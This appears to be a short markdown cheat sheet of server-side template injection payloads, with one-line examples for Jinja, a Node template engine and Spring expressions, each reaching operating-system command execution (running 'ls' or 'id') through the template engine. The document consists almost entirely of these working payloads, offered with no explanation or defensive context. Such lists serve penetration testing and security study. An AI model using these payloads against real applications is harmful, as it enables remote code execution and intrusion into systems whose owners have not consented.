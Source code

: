 ## Jinja

- Method 1
```
{{"_".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}
```

## Node

- Method 1
```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
```

## Java

- Spring framework
    - `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}`
